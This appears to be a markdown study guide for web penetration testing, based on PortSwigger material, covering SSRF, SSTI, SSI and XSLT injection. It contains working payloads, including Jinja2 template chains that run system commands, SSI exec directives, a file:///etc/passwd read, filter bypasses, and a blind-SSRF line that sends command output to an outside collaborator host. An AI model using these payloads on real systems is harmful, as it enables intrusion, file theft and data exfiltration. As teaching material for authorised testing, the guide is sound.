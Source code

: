 # Server-Side Attacks

[Relative Cheat Sheet](./server-side-cheat.md)

## Step-by-Step Guide for Testing and Exploiting Server-Side Vulnerabilities

### 1. Understand Server-Side Vulnerabilities
   - **Explanation**: Server-side vulnerabilities include Server-Side Request Forgery (SSRF), Server-Side Template Injection (SSTI), Server-Side Includes (SSI), and XSLT Injection, which allow attackers to forge internal requests, execute code via templates, or access files. SSRF targets internal resources, SSTI exploits template engines, and SSI/XSLT manipulate server directives or XML processing.
   - **Why It's Done**: Knowing these vulnerabilities helps identify specific input points and payloads for testing, as each has unique exploitation methods.
   - **Example**: SSRF might allow access to `http://localhost/admin`, while SSTI could execute `{{7*7}}` in a template.

### 2. Identify Entry Points
   - **Explanation**: Find inputs that trigger server-side processing, such as URL parameters for fetching resources (SSRF), template inputs (SSTI), or XML/submit fields (SSI/XSLT). Use Burp to map these.
   - **Why It's Done**: These are injection points for server-side attacks; missing them limits testing scope.
   - **Example**: A stock check API with `stockApi=http://external.com` for SSRF.

### 3. Test for SSRF
   - **Explanation**: Inject internal URLs (e.g., `http://127.0.0.1:8080/admin`) or file schemes (`file:///etc/passwd`) to see if the server makes unauthorized requests.
   - **Why It's Done**: SSRF can access internal services, metadata, or files, revealing sensitive data.
   - **Example**: Change `stockApi=http://external.com` to `stockApi=http://localhost/admin` and check response.

### 4. Exploit Blind SSRF
   - **Explanation**: If no response is visible, use out-of-band (OAST) techniques like DNS (`http://attacker.com`) or HTTP requests to confirm SSRF.
   - **Why It's Done**: Blind SSRF is harder to detect but can still exfiltrate data via external interactions.
   - **Example**: `stockApi=http://`whoami`.burpcollaborator.net` to send server data via DNS.

### 5. Bypass SSRF Defenses
   - **Explanation**: Use alternative formats like `127.1`, `@internal.com`, or open redirects to bypass blacklists or whitelists.
   - **Why It's Done**: Many SSRF protections filter only common patterns, allowing creative bypasses.
   - **Example**: `stockApi=http://127.0.0.1#@internal.com` to trick filters.

### 6. Test for SSTI
   - **Explanation**: Inject template syntax like `${{<%[%'"}}%\.` or `{{7*7}}` into inputs rendered by template engines (e.g., Jinja2, Twig).
   - **Why It's Done**: Confirms if user input is evaluated as template code, potentially leading to RCE.
   - **Example**: Input `{{7*7}}` in a username field; if output is `49`, it’s vulnerable.

### 7. Identify Template Engine
   - **Explanation**: Use engine-specific payloads (e.g., `{{7*'7'}}` for Twig vs `{%7*7%}` for Jinja2) and error messages to identify the engine.
   - **Why It's Done**: Each engine has unique syntax for exploitation, ensuring accurate payloads.
   - **Example**: Error mentioning `Jinja2` or Twig-specific output like `7777777`.

### 8. Exploit SSTI for RCE
   - **Explanation**: Use engine-specific payloads to execute commands, like `{{self._filename.__class__.__init__.__globals__['os'].popen('id').read()}}` for Jinja2.
   - **Why It's Done**: Escalates from code evaluation to full command execution.
   - **Example**: Input `{{config.__class__.__init__.__globals__['os'].popen('whoami').read()}}` to get server user.

### 9. Test for SSI and XSLT Injection
   - **Explanation**: For SSI, inject directives like `<!--#exec cmd="id" -->` in inputs like user-agent or forms. For XSLT, submit XML with `<xsl:value-of select="system('id')"/>` or file reads.
   - **Why It's Done**: These allow command execution or file access if the server processes SSI or XSLT.
   - **Example**: SSI in user-agent: `<!--#exec cmd="ls" -->`, accessed via log inclusion.

### 10. Assess Prevention Measures
   - **Explanation**: Check for input validation, sandboxing, or disabled external entities (XXE) and URL includes.
   - **Why It's Done**: Provides remediation recommendations, like disabling SSI or using safe template engines.
   - **Example**: Secure app blocks external URLs in SSRF or uses static templates.

This guide, based on PortSwigger Web Security Academy and the provided cheat sheet, provides a detailed process for testing server-side vulnerabilities. Test ethically within scope.